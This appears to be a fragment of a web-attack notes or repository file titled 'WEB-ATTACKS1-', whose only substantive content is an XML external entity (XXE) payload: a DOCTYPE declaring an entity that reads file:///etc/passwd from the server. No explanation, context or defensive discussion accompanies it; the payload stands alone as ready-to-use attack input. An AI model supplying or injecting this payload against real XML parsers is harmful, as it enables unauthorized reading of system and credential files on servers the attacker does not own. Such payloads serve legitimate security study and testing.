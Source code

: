 # WEB-ATTACKS1-

####################################################
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
#####################################################
